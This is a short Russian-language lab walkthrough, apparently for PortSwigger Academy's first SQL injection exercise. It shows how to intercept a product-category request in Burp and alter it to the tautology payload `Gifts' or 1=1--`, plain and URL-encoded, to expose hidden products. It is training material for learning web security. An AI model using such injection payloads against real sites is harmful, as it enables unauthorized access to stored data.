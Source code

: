 Зайдем на главную страницу 

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/1.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data/pics%20for%20walktrough/1.png)
Перейдем по вкладке `Gifts` и найдем в `Proxy` -> `HTTP history` наш запрос
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/1.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data/pics%20for%20walktrough/2.png)

Модифицируем запрос, чтобы узнать скрытые данные о невыложенных товарах
```
GET /filter?category=Gifts' or 1=1--
```
Который в URL кодировке будет отображаться как 
```
GET /filter?category=Gifts'+or+1%3d1--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/1.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data/pics%20for%20walktrough/3.png)

Тем самым, мы получили доступ к товарам, который были скрыты от обычных пользователей с помощью использования SQL-инъекций

